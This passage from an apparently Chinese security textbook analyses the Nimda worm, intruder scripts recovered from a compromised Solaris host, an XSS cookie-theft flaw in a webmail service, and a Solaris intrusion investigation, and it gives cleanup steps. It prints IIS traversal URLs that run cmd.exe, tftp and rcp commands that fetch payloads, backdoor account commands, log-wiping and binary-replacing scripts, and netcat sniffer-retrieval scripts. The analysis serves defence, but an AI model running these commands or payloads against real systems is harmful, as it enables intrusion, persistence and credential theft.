所有IE 5.0、IE 5.01以及IE 5.5版本的浏览器都受此漏洞的影响。

# 2. Microsoft IIS Unicode解码漏洞

这个漏洞是为大家所熟知的了，微软IIS 4.0和IIS 5.0在Unicode字符解码的实现中存在一个安全漏洞，导致用户可以远程通过IIS执行任意命令。当IIS打开文件时，如果该文件名包含unicode字符，它会对其进行解码，如果用户提供一些特殊的编码，将导致IIS错误的打开或者执行某些web根目录以外的文件。

例如下面URL请求将导致在目标主机上执行dir命令：

```
http://www.victim.com/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir
```

“尼姆达”利用这个漏洞来上传并执行蠕虫程序。

# 3. Microsoft IIS二次解码漏洞

这个漏洞与Unicode漏洞类似，IIS在加载可执行CGI程序时，会进行两次解码。第一次解码是对CGI文件名进行http解码，然后判断此文件名是否为可执行文件，例如检查后缀名是否为".exe"或".com"等等。在文件名检查通过之后，IIS会再进行第二次解码。正常情况下，应该只对该CGI的参数进行解码，然而，IIS错误地将已经解码过的CGI文件名和CGI参数一起进行解码。这样，通过精心构造CGI文件名，攻击者可以绕过IIS对文件名所作的安全检查，例如对"../"或"./"的检查，这将导致攻击者可以执行任意系统命令。

例如下面URL请求将导致在目标主机上执行dir命令：

```
http://www.victim.com/scripts/..%255c../..%255c../..%255c../winnt/system32/cmd.exe?/c+dir
```

“尼姆达”对这个漏洞的利用与对Unicode漏洞类似，同样是通过它来上传并执行蠕虫程序。

# 4. Microsoft IIS 5.0 系统文件列表权限提升漏洞

因为利用Unicode和二次解码漏洞获得的系统权限比较低，所以“尼姆达”还需要通过下面这个漏洞来提升自己的运行权限。这是Microsoft IIS 5.0中存在一个安全漏洞，可以导致攻击者提升权限。IIS 5.0有一个文件列表，所有在这个列表中的程序（一些DLL文件）都会在IIS进程空间中运行。然而，缺省这个列表中只包含这些文件的文件名，而不是其绝对路径名。因此，任何可执行文件，如果其文件名与文件名列表中的文件匹配，则当它执行时就会在IIS进程空间中运行，这使得它以父进程的权限被执行，通常是SYSTEM权限。

“尼姆达”通过结合Unicode以及二次解码漏洞在目标主机的可执行虚拟目录下上传一个可执行文件Admin.dll，并远程通过web接口执行它。因为Admin.dll这个文件名正好在IIS的文件名列表中，所以这个蠕虫就能够以系统最高权限来运行了。

值得一提的是，“尼姆达”病毒的名字来源于病毒代码中的一个英文字字符串"Nimda"，国人便将其译

[PAGE 209]

为了“尼姆达”。而仔细观察就可发现，Nimda正是Admin的反序拼写，而“尼姆达”病毒正是利用了Admin.dll文件作为一种传播途径的，可以猜测，Nimda这个名字就是来源于Admin。

#### “尼姆达”的传播方式

如前所述，“尼姆达”病毒的最大特点就是它的传播方式非常多，这也是它传播范围广泛的重要原因。“尼姆达”除了通过典型的E-mail传播和IIS漏洞传播之外，还利用了与“欢乐时光”病毒类似的网页传播，以及其独创的对.exe文件的感染以及对Word文档的传播方式。下面我们就来看看其每种传播方式的具体情况。

##### 1. 通过电子邮件传播

根据一段时间的跟踪分析，我发现大部分中了“尼姆达”病毒的主机都是通过电子邮件被感染的，尤其是对于安装Windows 95/98/Me的普通用户来说，这种利用E-mail进行传播的方法可以说是最简便也是最有效的途径。

从这种传播方法来看，“尼姆达”可以算是一种邮件病毒，它也具备所有邮件病毒的特征。从早期的“爱虫”，到后来的Sircam，所有的邮件病毒都是通过将病毒代码附于邮件附件当中诱使用户执行来达到感染的。但是“尼姆达”显然更加技高一筹，它利用IE浏览器异常处理MIME头漏洞来传播，这样用户无须执行邮件附件，只要浏览邮件内容就会遭到感染。

“尼姆达”蠕虫通过邮件进行传播的具体方法为：它会向被攻击者的邮件地址发送一封携带了蠕虫附件的邮件。这个邮件由两部分MIME类型的信息组成。第一部分的MIME类型为"text/html"，但却没有包含文本，因此看起来是空的。第二部分的MIME类型为"audio/x-wav"，但它实际上携带的是一个名为"readme.exe"的base64编码的可执行附件。

利用了“微软IE异常处理MIME头漏洞”安全漏洞，任何运行在x86平台下并且使用微软IE 5.5 SP1或之前版本（IE 5.01 SP2除外）来显示HTML邮件的邮件客户端软件，都将自动执行邮件附件。用户甚至只需打开或预览邮件即可使蠕虫被执行。

那么蠕虫是从哪里获得要攻击的目标邮件的地址的呢？它会在Internet临时文件夹中读取所有htm和html文件，并在这些文件中搜索看起来像邮件地址的字符串，然后向这些地址发送一份包含蠕虫程序的邮件。“尼姆达”蠕虫在Windows注册表中记录最后一批邮件发送的时间，然后每10天重复搜索邮件地址并发送蠕虫邮件的过程。

##### 2. 通过IIS漏洞进行传播

如果“尼姆达”只能通过email进行传播的话，它是很难对互连网上的大量具有固定IP的服务器的感染。然而这个蠕虫的高明之处就在于，它的传播目标不仅仅是使用电子邮件的普通用户，而且还有运行IIS的Windows服务器。

“尼姆达”的运行程序会产生一个随机IP地址，它对IP地址的选择显然是受到了“红色代码II”的启发，攻击的IP地址中，有50%的几率在与本地IP地址的B类网络中；25%的几率，在与本地IP地址的A类网络中；25%的几率，随机选择IP地址。

然后“尼姆达”会启动一个tftp服务器，监听在udp/69端口。一旦发现受影响的主机，蠕虫会通过在目标主机上执行tftp命令来进行自身的复制传播。这点显然是受到了“蓝色代码”的启发。

在开启tftp服务器和确定攻击IP地址之后，“尼姆达”就开始对这个IP地址进行扫描，它首先扫描“红色代码II”留下的后门，我们知道，被“红色代码II”攻击过的系统中的Web虚拟目录中会留下一个名为root.exe的后门程序。“尼姆达”就首先扫描"/scripts/root.exe"，如果这个程序存在的话，“尼姆达”蠕虫就企图通过它来在系统上执行命令。

它首先执行类似下列命令来向其发送蠕虫代码：

```
GET /scripts/root.exe?/c+tftp+-i+localip+GET+Admin.dll HTTP/1.0
```

[PAGE 210]

其中localip是本主机的IP地址，这样就通过http协议将本地的Admin.dll文件传播过去了，而这个Admin.dll实际上就是蠕虫代码本身，只不过它在这里是以DLL文件的形式存在。这样做的目的，就像前面所讲述的那样是为了利用IIS的系统文件列表权限提升漏洞来提升蠕虫运行的权限。

在将Admin.dll上传到目标主机上之后，蠕虫就会通过发送GET /scripts/Admin.dll HTTP/1.0请求来运行蠕虫。如上所述，这样蠕虫是以系统最高权限来运行的。

如果在扫描"/scripts/root.exe"使没有成功，即目标机中没有“红色代码II”留下的后门程序，那么“尼姆达”蠕虫程序会继续扫描目标上的Unicode漏洞以及二次解码漏洞，以期通过这两个漏洞在系统上执行命令，如果发现其中某一个漏洞，蠕虫就会重复利用"/scripts/root.exe"所发送的tftp命令来上传Admin.dll，然后运行。

Admin.dll作为ISAPI程序运行后，会把自身拷贝到Windows系统文件夹命名为mmc.exe，然后以带参数方式运行“mmc.exe -quserry9bnow”。这样就完成了通过IIS进行传播的过程。

##### 3. 通过网页进行传播

对于受感染的WWW服务器，“尼姆达”会修改其上的WWW网页文件，使得浏览该网站的用户受其感染。当蠕虫是通过Admin.dll运行时，蠕虫生成的新程序（mmc.exe）会在整个硬盘中搜索后缀为：HTML、.ASP、.HTM，文件名为：DEFAULT、INDEX、“尼姆达”蠕虫会将自身拷贝到Windows\System目录中，命名为load.exe，并修改SYSTEM.INI文件，将Shell部分改为如下内容：

```
Shell = explorer.exe load.exe -dontrunold
```

这样每次系统启动时都会运行蠕虫程序。而且它会用自身拷贝替换Windows目录下的riched20.dll，这样下次执行word时会自动执行这个蠕虫。

如果蠕虫是以readme.exe文件名被执行的，它还会将自身拷贝到Windows临时目录中，并保存为随机文件名。

为了防止蠕虫进程出现在任务管理器中而被用户查杀，“尼姆达”在每次执行时会寻找explorer进程，并使用一种名为远程线程的技术，将自己的进程注册为explorer进程的一个远程线程。这样即便用户退出系统，蠕虫仍然可以继续执行，而且仅仅在任务管理器中杀掉名为readme.exe和mmc.exe进程是无法杀掉蠕虫的，因为蠕虫还隐藏在explorer的线程中。这部分内容使用了比较高超的编程技术，我们通过反汇编的代码来看看它具体是如何实现的。

```
asm
.text:36174AB9 pushoffset aCreateremoteth ; CreateRemoteThread
.text:36174ABE pushhModule ; hModule
.text:36174AC4 callesi ; GetProcAddress

```

蠕虫程序首先通过调用GetProcAddress()来获取CreateRemoteThread这个API的地址。

```
asm
.text:36171E03 pushesi ; dwProcessId
.text:36171E04 pushebx ; bInheritHandle
.text:36171E05 push1F0FFFh ; dwDesiredAccess
.text:36171E0A callds:OpenProcess
.text:36171E10 mov edi, eax
.text:36171E12 cmp edi, ebx
.text:36171E14 jz loc_36171EFE

```

然后调用OpenProcess()来打开explorer.exe进程，把句柄保存在edi寄存器中，这里使用的dwDesiredAccess为0x1F0FFF，即

```
PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE。
```

```
asm
.text:36171E1A push8000h
.text:36171E1F pushebx
.text:36171E20 pushdword_3617ACAC
.text:36171E26 pushedi
.text:36171E27 calldword_3617D5D8 ; VirtualFreeEx

```

蠕虫通过调用VirtualFreeEx()来在explorer.exe进程中释放一定数量的虚拟内存空间，以便将蠕虫线程插入其中。

```
asm
.text:36171E2D mov eax, dword_3617ACAC
.text:36171E32 push40h
.text:36171E34 push3000h
.text:36171E39 mov ecx, [eax+3Ch]
.text:36171E3C mov ecx, [ecx+eax+50h]
.text:36171E40 pushecx

```

蠕虫程序首先通过调用GetProcAddress()来获取CreateRemoteThread这个API的地址。

```
asm
.text:36171E41 pusheax
.text:36171E42 pushedi
.text:36171E43 calldword_3617D5DC ; VirtualQueryEx
.text:36171E49 cmp eax, ebx
.text:36171E4B mov [ebp+var_4], eax
.text:36171E4E jz loc_36171EFE

```

紧接着蠕虫调用VirtualQueryEx()来得到explorer.exe进程中虚拟地址空间的信息。然后蠕虫又会调用VirtualFreeEx()来在explorer.exe进程中释放一定数量的虚拟内存空间。

```
text
.text:36171E84 lea eax, [ebp+var_30]
.text:36171E87 pusheax ; flProtect
.text:36171E88 push40h ; flAllocationType
.text:36171E8A pushesi ; dwSize
.text:36171E8B pushebx ; lpAddress
.text:36171E8C pushedi ; hProcess
.text:36171E8D calldword_3617D5D0 ; VirtualAllocEx

```

在完成释放虚拟内存空间的动作之后，蠕虫回调用VirtualAllocEx()来在explorer进程的内存地址空间分配蠕虫文件名的缓冲区。

```
text
.text:36171E93 lea eax, [ebp+NumberOfBytesWritten]
.text:36171E96 pusheax ; lpNumberOfBytesWritten
.text:36171E97 pushesi ; nSize
.text:36171E98 pushebx ; lpBuffer
.text:36171E99 pushebx ; lpBaseAddress
.text:36171E9A pushedi ; hProcess
.text:36171E9B call ds:WriteProcessMemory

```

然后蠕虫程序调用WriteProcessMemory()函数将蠕虫文件的路径名复制到explorer进程的内存空间，以便可以在explorer进程空间中访问到这个文件名。

```
text
.text:36171EC9 lea eax, [ebp+var_10]
.text:36171ECC pusheax
.text:36171ECD pushebx
.text:36171ECE pushdword_3617ACAC
.text:36171ED4 pushoffset sub_36171F05
.text:36171ED9 pushebx
.text:36171EDA pushebx
.text:36171EDB pushedi
.text:36171EDC calldword_3617D5E0 ; CreateRemoteThread

```

接下来又经过一系列操作之后，蠕虫通过调用CreateRemoteThread()来在远程explorer进程中插入一个蠕虫线程，这样蠕虫就作为explorer.exe进程的一部分来运行了。

#### “尼姆达”留下的系统后门

和“红色代码II”一样，“尼姆达”也会在被入侵的系统当中留下几个后门，使得黑客可以轻松访问被蠕虫感染的系统。

“尼姆达”蠕虫会将所有驱动器设置成共享状态，它会编辑如下注册表项：

HKLM\Software\Microsoft\Windows\CurrentVersion\Network\LanMan\[C$ -> Z$]

蠕虫会删除下列注册表项的所有子键以禁止共享安全性：

HKLM\SYSTEM\CurrentControlSet\Services\lanmanserver\Shares\Security

蠕虫还会修改下列注册表项：

HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced

调整 Hidden、ShowSuperHidden 和 HideFileExt 键值，使得使用资源管理器无法显示隐藏文件，这可以保护蠕虫代码免于被发现。

“尼姆达”蠕虫还激活了Guest用户，将其密码设置为空，并将其加入到Administrators组中（对于 Windows NT/2000/XP 用户）。它是通过执行下列命令来完成这项任务的：

```
text
net user guest /add
net user guest /active
net user guest ""
net localgroup Administrators guest
net localgroup Guests guest /add

```

最后，“尼姆达”蠕虫通过执行下列命令，将 C:\ 设置为完全共享：

```
text
net share c$=c:\

```

#### 预防和清除“尼姆达”蠕虫

现在“尼姆达”的传播速度异常快速，对于还没有被它感染的用户来说应该尽快安装微软公司提供的漏洞补丁。首先应该将 IE 浏览器升级为 IE 6.0 以上版本，或者为低版本的 IE 浏览器安装补丁：

+   - Internet Explorer 5.01 Service Pack 2：
  http://www.microsoft.com/windows/ie/downloads/recommended/ie501sp2/default.asp
- Internet Explorer 5.5 Service Pack 2：
  http://www.microsoft.com/windows/ie/downloads/recommended/ie55sp2/default.asp
- Internet Explorer 6：
  http://www.microsoft.com/windows/ie/downloads/ie6/default.asp

对于开启 IIS 服务的 Windows 系统来说，应该尽快安装微软最新的 IIS 安全漏洞补丁合集。

+   - Windows NT 4 系统 IIS 补丁合集：
  http://www.microsoft.com/Downloads/Release.asp?ReleaseID=32061
- Windows 2000 系统 IIS 补丁合集：
  http://www.microsoft.com/Downloads/Release.asp?ReleaseID=32011

对于已经遭到“尼姆达”蠕虫感染的用户来说，应该尽快采取措施清除蠕虫。由于蠕虫修改和替换了大量的系统文件，因此手工清除可能比较繁琐而且不易清除干净。建议用户使用最新版本的反病毒厂商的杀毒软件来进行清除工作。目前各大反病毒厂商都已经可以查杀这种蠕虫病毒。您可能需要多次运行杀毒软件或清除程序，以确保彻底杀掉受感染的文件。

如果没有杀毒软件，也可以使用手工清除，具体清除步骤如下，在进行清除之前，应该首先在文件夹选项里设置“显示所有文件”：

+   1. 删除系统中 mmc.exe、load.exe、riched20.dll、admin.dll、readme.eml、readme.exe 等所有蠕虫文件。

+   2. 从原始安装盘中提取riched20.dll覆盖windows系统文件夹里的同名蠕虫文件。
   Win98：在压缩包Win98_35.CAB中，解开找到riched20.dll拷贝到system目录。
   Win98se：在压缩包Win98_41.CAB中。
   Win2000：在system32\dllcache目录有备份，将它拷贝到system32目录。
   或者也可以从其它未感染过病毒的机器拷贝这些文件。
3. 查找工具，搜索包含“fsdhqherwqi2001”的.exe和.dll文件，以及包含“Kz29vb29oWsrLPh4eisrPb09Pb2”的.eml和.nws文件。
4. 检查所有文件名中包含default、index、main、readme并且扩展名为htm、html、asp的文件，将其中打开蠕虫程序的JavaScript程序删除。
5. 对于Windows 95/98/ME用户，您需要手工编辑C:\windows\system.ini文件，找到如下行：
   Shell = explorer.exe load.exe -dontrunold
   将其改为：
   Shell = explorer.exe
   保存退出。
6. 清除“红色代码II”蠕虫留下的系统后门，搜索名为root.exe的文件，将其删除。
7. 禁止Guest用户，并将Guest用户从Administrators组中删除（只有对于Windows NT/2000用户需要执行此步骤）。
8. 检查共享，对于Windows 95/98/ME用户，应当删除各个硬盘的共享。对于Windows NT/2000用户，确保你的管理员口令具有足够的强度。
9. 重新启动计算机

### 6.6 实际脚本攻击分析

我们下面所讨论的攻击脚本取自一台存在安全漏洞的主机，我们将通过分析它们来展示入侵者是如何使用大量的存在漏洞的主机来收集其他主机上的密码。我们在一个名为neet.tar的程序包中发现了这些将要在本文中提到的文件：bd（脚本文件）、doc（用来替换原来系统中的inetd文件的二进制文件）、update（一个密码嗅觉器）和ps（用来替换原系统中的ps文件的二进制后门文件）。

我们检查入侵者行动从受害者主机开始，这台主机存在有Solaris RPC Tooltalk程序的缓冲区溢出漏洞。我们在这台系统中找到了一个叫做bd的脚本，它的作用就是装载系统。

```
unset HISTFILE; unset SAVEHIST
```

入侵者通过以上命令来关掉用来记录主机内用户行为的历史文件。

```
cp doc /usr/sbin/inetd;
chown root /usr/sbin/inetd;
chgrp root /usr/sbin/inetd;
touch 071600097 /usr/sbin/inetd;
```

入侵者将doc文件复制并覆盖掉系统原来的inetd文件，并将它的用户使用权、组使用权和时间戳修改的跟源文件一样来掩人耳目。

```
rm -rf doc /tmp/bob /var/adm/messages /usr/lib/nfs/statd /usr/openwin/bin/rpc.ttdb* /usr/dt/
```

[PAGE 215]

```
text
bin/rpc.ttdb*

```

接着，入侵者将从neet.tar中解压缩出来的doc文件删除，/tmp/bob（我们待会儿会对它做更详细的讨论）、messages（日志文件，入侵者通过删除它来擦去痕迹）、statd和rpc.ttdb（Tooltalk的汇程序）。其中入侵者抹去他提升权限时所留下的日志：

```
rm -rf /var/log/messages /var/adm/sec* /var/adm/mail* /var/adm/sec*

```

入侵者这样删除并不是个很聪明的做法，把日志直接删除掉跟直接告诉管理员“这台主机已被入侵”没什么两样。

```
text
/usr/sbin/inetd -s;
/usr/sbin/inetd -s;
telnet localhost;
/usr/sbin/inetd -s;

```

入侵者打开了两个inetd，然后试着telnet到本机上，最后打开了第三个inetd。

```
text
ps -ef | grep inetd | grep bob | awk '{print "kill -9" $2}' > boo
chmod 700 boo
./boo

```

入侵者通过在进程列表中查找inetd和bob字段来定位原始版本的inetd。之后，他创建了一个叫做boo的文件，这个文件中包括“kill -9 {进程号}”的内容，他把文件权限设置成700以便之后的运行。这个文件会删除系统中原始的inted进程。

```
text
ps -ef | grep nfs | grep statd | awk '{print "kill -9" $2}' > boo
chmod 700 boo
./boo
ps -ef | grep ttdb | grep -v grep | awk '{print "kill -9" $2}' > boo
chmod 700 boo
./boo

```

接着，入侵者使用同样的方法定位并删除statd和ttdb进程。

```
text
mkdir /usr/man/tmp
mv update ps /usr/man/tmp
cd /usr/man/tmp
echo 1 " ./update -s -o output \" > /kernel/pssys
chmod 755 ps update
./update -s -o output &

```

入侵者在/usr/man下创建了一个tmp目录，并且将嗅览器和ps文件放置在这里。他创建了一个开机启动脚本，这样使用户在开机的同时就启动这个嗅览器。

```
text
cp ps /usr/ucb/ps
mv ps /usr/bin/ps

```

[PAGE 216]

```
sh
touch 0716000097 /usr/bin/ps /usr/ucb/ps

```

入侵者将真正的ps程序替换成新的ps程序，并且更改它的时间戳来跟原来的程序对应。

```
sh
cd /
ps -ef | grep bob | grep -v grep
ps -ef | grep stat | grep -v grep
ps -ef | grep update

```

之后，入侵者检查进程，确定所有的程序都可以正常运转。

bd文件引起了我们很大的兴趣，这不光是因为它对系统进行了变动，而且它给了我们一个入侵者到底是如何进入系统的大概概念。这里的关键部分涉及到了/tmp/bob。从我们上面分析入侵者是如何删除掉原始inetd进程的内容来看，inetd程序曾同一个配置文件一起运行。我们依然不知道/tmp/bob/里面到底有什么东西，不过我们可以假设是原始Tooltalk程序的exploit允许入侵者重启动inetd程序，并和一个新的配置文件一起运行。

这个脚本中另外一个提起我们兴趣的地方，是入侵者关掉了当初让他进来的那个带有漏洞的进程，我们估计他是不想让其他的入侵者再来占领他得到的地盘。

脚本中的一个失误就是打开了三个inetd进程。这造成了两件事情：多个inetd进程是可见的，并且它们无法绑定第二个和第三个进程到telnet或ftpd的信息都被记录在/var/log/messages文件中。

一旦原始的exploit占领了系统，入侵者使用脚本将嗅觉器和后门加载到每个系统里面。这些脚本是从攻击主机上运行的。为了加载受害主机，入侵者创建了这三个脚本，其中一个叫做massbd.sh。

```
sh
#!/bin/sh
for i in `cat $1`; do (./bd.sh $i &) ; done

```

这个脚本提取一个输入文件（估计是一份IP地址列表）并运行bd.sh脚本（不同于我们上面所讨论的bd脚本）。

这个bd.sh只有两行：

```
sh
#!/bin/sh
./bdpipe.sh | telnet $1 1524

```

入侵者电脑上的bd.sh脚本给了我们一些宝贵的信息，例如原始的缓冲区溢出漏洞的exploit到底对系统做了些什么。这个脚本将第三个脚本，也就是bdpipe.sh的管道输出重定向到telnet的ip参数上。请注意：这里的目的端口：1524。这个脚本提供了更多关于原始exploit行为的信息。

第三个脚本bdpipe.sh的作用是管道输入参数给telnet，并且在目标主机上执行命令。

```
sh
#!/bin/sh
echo "cd /tmp;"
echo "rcp demos@xxx.yyy.zzz.aaa:neet.tar ./;"
sleep 2
echo "tar -xvf neet.tar;"
sleep 1
echo "./bd;"
sleep 10

```

```markdown
这个脚本从一个远程主机上复制了一份neet.tar包，然后解压缩，并执行了我们刚才在受害者主机上找到的bd脚本。当bd脚本在被害者主机上执行之后，bdpipe应该从/tmp目录中删除neet.tar、bd以及update文件。但这最后一行执行并没有在所有被入侵的系统上成功运行，从而允许我们从一些被害主机上找到这些幸存下来的文件。

从这三个脚本不难分析出，这个入侵者通过这台入侵的主机，继续攻击其他系统。因为编写这些脚本并不是件复杂的事情，所以入侵者使用很少的工作就可以在短时间内将入侵的成果扩大很多倍。

从我们所能得到的信息来看，入侵者并没有在将嗅觉器加载入系统后就停手。我们又找到了另外三个负责取回被记录下来的密码。第一个是一个名为mget.sh的脚本。

```
sh
for i in `cat $1`; do ( ./sniff.sh $i &); done

```

mget.sh脚本取得IP地址表，并用它来调用sniff.sh。sniff.sh是一个只有两行的脚本。

```
sh
#!/bin/sh
./getsniff.sh | ./nc -p 53982 $1 23 >> $1.log

```

脚本从一个指定的端口（53982）登陆到目标电脑的telnet端口（23）上。这个名为nc（netcat）的程序允许入侵者进行从任意端口到任意端口的登陆。找到这个脚本帮助我们了解后门在inetd里的位置。如果有一个从53982端口发出的连接请求传到受害者主机的telnet端口上的话，被替换的inetd程序便会开始搜索密码文件，如果密码文件被保护的话，它会添加一个root shell。

第三个脚本叫做getshniff.sh。它是用来通过nc的连接在受害者主机上执行命令。

```
sh
#!/bin/sh
sleep 2
echo "oir##t"
sleep 1
echo "cd /usr"
sleep 1
echo "cd man"
echo "cd tmp"
sleep 2
echo "cat output*"
sleep 1
echo "exit"

```

这个脚本给了我们一个用来和被替换的inetd程序通讯的密码（oir##t）。脚本会提供给nc程序的输入来完成对受害主机的连接，并接受嗅觉器程序所产生的文件。

当我们把这些脚本放在一起，它们就给了我们一个关于入侵者在做什么的大概印象。一旦目标主机被攻破，他会远程接受装载在受害者系统上的嗅觉器日志，以便以后的控制。

### 6.7 亿唐Mail系统Cookie泄密漏洞

随着网络收费的一步步兴起，国内的免费Mail提供商已经是越来越少了。亿唐是现在国内比较著名的免费邮件提供商，它和163电子邮局、网易等著名网站使用的都是Coremail系统，这个Mail系统应该说是很稳定的，可是笔者最近发现，亿唐的Mail系统存在严重的漏洞，这个漏洞会导致亿唐Mail用户的用户名及用户密码泄露，而要达到窃取用户密码的目的，甚至只需要用特殊的方法给亿唐用户发送一封邮件，用户浏览邮件的同时，它的用户名和用户密码就会被窃取。

在讲这个漏洞的原理之前，各位读者有必要了解一下Cookie及跨站脚本攻击(CSS)。Cookie又称为小甜饼，是服务器上的CGI程序发送给用户的文本文件，一般小于4K，里面记录着用户的一些登陆信息。当你打开一个Cookie文件的时候，会发现大多数的Cookie里面是乱七八糟的东西，其实这些是经过加密的用户信息。每当用户与服务器上交互的时候，IE浏览器就会根据Cookie的设置向服务器发送相应的Cookie，服务器读取Cookie后，根据里面记录的信息就能知道你是谁，是否拥有登陆权限及其他类似的信息(当然Cookie中的信息由服务器的CGI程序决定)。而亿唐Mail系统的漏洞恰恰就出在Cookie上。根据笔者的测试，亿唐的Mail系统向用户发送的Cookie没有加密，用户的用户名和密码是明文保存在Cookie里面的，如果某个心怀不轨者想要得到这些信息，只要通过一定的方法窃取用户的Cookie就可以了，而窃取用户的cookie就要用到跨站脚本攻击的方法了。

熟悉Cookie的朋友都知道，Cookie在默认情况下只向发送该Cookie的网站发送自身，举个例子：亿唐发送给你的Cookie是不会发送给163的，因为Cookie中有个域的限制，而默认情况下的域，是被设置成该Cookie的发送者，也就是亿唐。这样的话，我们是不是没有办法拿到别人的Cookie呢？不，我们可以通过跨站脚本攻击的方法达到这个目的。说到跨站脚本攻击，我们必须有一点JavaScript知识，它其中有这样一个对象“document.cookie”，当我们在IE浏览器地址栏中输入：

javascript:alert(document.cookie);

的时候，会看到弹出一个空白的对话框，实际上它显示的就是Cookie文件的内容。这样，我们先试一试：先登陆你的电子邮箱(或者使用Outlook)，必须是能发送HTML格式的那种，我们给亿唐的某个用户(假设为A@ETANG.COM)发送内容如下的信件：

```
html
<html>
<head>
<title>cookie test</title>
</head>
<body>
<a href="javascript:alert(document.cookie);">cookie test</a>
</body>
</html>

```

当A用户打开这封信并点击“Cookie Test”这个超级连接的时候，会弹出一个对话框，和我们前面在自己IE地址栏输入“javascript:alert(document.cookie);”并回车得到的一样，只不过它不是空白的。仔细看，你看到了什么？没错！其中“ETANG_LOGIN_NAME=A”是A用户的用户名，“UPW=xxxxx”中的xxxxx是A用户的密码！可能有的读者会问：你不是登陆A的邮箱才能看到它的Cookie吗，你又不能拿到？好，我们给亿唐的用户准备这样一封信：

```
html
<html>

```

### 6.8 Solaris下的一次入侵分析

#### 一、发现问题

前段时间帮一个朋友管理一台Solaris系统，因为系统刚升级为Solaris 8，系统升级之后还没有做安全配置，平时就放在那里做个测试机。

小知识：Solaris是SUN开发的一种网络操作系统，主要针对大中企业应用的服务器操作系统。今天我本想登录上去编译一个测试程序，按网管的习惯登上去就打了个ps命令，查看进程的运行情况。在这里我们先介绍一下ps这个命令。ps命令是显示系统相关进程的信息，没有任何选项设置时，ps仅显示与控制终端相关的进程的信息。该输出只包含进程ID、累计执行时间以及命令的名字。

+   - `-e` 显示当前运行的每一个进程的信息
- `-f` 产生一个完整的清单

+   - 与进程有关的标志：
  - `00` 进程已经终止
  - `01` 系统进程
  - `02` 父进程是跟踪进程
- 进程状态：
  - `o` 正在运行
  - `s` 睡眠
  - `r` 可运行
- `UID`：进程所有者的用户ID号
- `PID`：进程的进程ID
- `PPID`：父进程的进程ID

```
text
# ps -ef
UID   PID  PPID  C   STIME TTY        TIME CMD
root    0     0  0   5月 15 ?        0:17 sched
root    1     0  0   5月 15 ?        0:55 /etc/init -
root    2     0  0   5月 15 ?        0:08 pageout
root    3     0  0   5月 15 ?      101.10 fsflush
root  271     1  0   5月 15 ?        0:00 /usr/lib/saf/sac -t 300
......
root 17594    1  0  11月 7日         0:00 /usr/sbin/inetd -s /tmp/.x

```

由此，大家发现有什么不妥了吗？没错，发现一个/usr/sbin/inetd -s /tmp/.x的进程！这里我们介绍一下inetd这个进程。inetd进程又名超级服务器，是一个十分重要的进程，它会参考/etc/inetd.conf文件中相关服务设定，启动相应的服务。在Solaris下，这个inetd命令可以通过-s参数指定要读取设定服务的文件，启动该设定文件所定义的服务，所以，许多攻击者都会通过该命令为自己开放一个后门服务。

再看看网络情况：

```
text
# netstat -an
UDP
Local Address           Remote Address           State
......
TCP
Local Address           Remote Address     Swind Send-Q Rwind Recv-Q State
*. *                    *. *                    0      0      0      0 IDLE
*.111                   *. *                    0      0      0      0 LISTEN
*.1524                  *. *                    0      0      0      0 LISTEN
*. *                    *. *                    0      0      0      0 IDLE
*.32771                 *. *                    0      0      0      0 LISTEN
*.21                    *. *                    0      0      0      0 LISTEN
......

```

由这些信息可以看到居然开出了1524端口！1524端口本来是ingreslock服务端口（注：ingreslock服务

#### 二、入侵分析

以上入侵分明是一个“脚本男孩”所为（“脚本男孩”就是指那些不理解攻击程序的运行机理，只会使用别人开发的攻击程序到处破坏的少年），连入侵后启动的进程都不关掉。根据往常的经验，这些被攻击的Solaris机器，通常会被入侵者做为攻击其他机器的跳板，俗称为“肉鸡”，估计该机器已经被入侵者上载了一些相关的攻击工具和后门程序，下面的任务就是要找出这些程序。

我们使用find命令找出所有隐含文件或目录：

```
bash
#find / -name ".*" -print -xdev
/etc/cron.d/.proto
/etc/skel/.profile
……
/.profile
/.Xauthority
/.Ttauthority
/.vnc
/.Xlocale
……

```

（注：find命令可以在层次目录中查找文件，例如：以上使用到的find命令的参数意思为：
/ 是指定要开始查找的目录，这里从root目录开始寻找
-name ".*" 是指定要找的文件名，这里是寻找文件名首字符为.的文件
-print表达式，显示找到文件的全路径名
-xdev表达式，不要查找其他文件系统的目录）

从以上列表，好像没有什么发现。继续寻找，再使用find命令查看一下没有属主或没有属组的文件或目录：

```
bash
#find / -nouser -o nogroup .
……
/dev/cu/tools/nmap-2.54BETA1
/dev/cu/tools/nmap-2.54BETA1/nmap.c
/dev/cu/tools/nmap-2.54BETA1/targets.c
/dev/cu/tools/nmap-2.54BETA1/tcpip.c
/dev/cu/tools/nmap-2.54BETA1/error.c
/dev/cu/tools/nmap-2.54BETA1/utils.c
/dev/cu/tools/nmap-2.54BETA1/osscan.c
……
/dev/cu/tools/ettercap-0.6.7/docs/fr/ettercap.fr.8.in
/dev/cu/tools/ettercap-0.6.7/docs/it
/dev/cu/tools/ettercap-0.6.7/docs/it/README.PLUGINS.it
……

```

（注：以上使用到的find命令的参数意思为：
/意思就是指定要开始查找的目录，这里从root目录开始寻找

+   - nouser指的是寻找没有属主的文件
- o就是or的意思，也就是“或”的意思
- nogroup指的是寻找没有属组的文件）

在此，我们终于有发现了：在/dev/cu目录下发现居然发现NMAP的源代码和Sniffer工具；这个不是网管和我放的，那肯定是入侵者放的东西，进去看看。

```
bash
#cd /dev/cu
#ls -la ./
drwxr-xr-x 5 root root 512 Aug 12 11:25 .
drwxr-xr-x 17 root sys 3584 Sep 6 14:13 ..
drwxr-xr-x 10 root other 1536 Sep 5 16:00 tools
-rw-r--r-- 1 root other 1786434 Jul 4 10:44 tools.zip

```

发现一个目录及一个文件，显然是攻击者上传的工具文件。再进目录看看有什么东西。

```
bash
#cd ./tools
#ls -la ./
drwxr-xr-x 10 root other 1536 Sep 5 16:00 .
drwxr-xr-x 5 root root 512 Aug 12 11:25 ..
-rwxr-xr-x 1 root other 27992 Jun 19 2000 brute
-rwxr-xr-x 1 root other 6906 Jun 19 2000 brute.c
-rwxr-xr-x 1 root other 13928 Jul 4 10:51 cachefsd
-rwxr-xr-x 1 root other 14280 Jul 4 10:54 dtspcex
-rwxr-xr-x 1 root other 9944 Mar 6 2002 dtspcex.c
drwxr-xr-x 7 500 500 1024 Aug 27 11:55 ettercap-0.6.7
-rw-r--r-- 1 root other 2744320 Jul 3 15:04 ettercap-0.6.7.tar
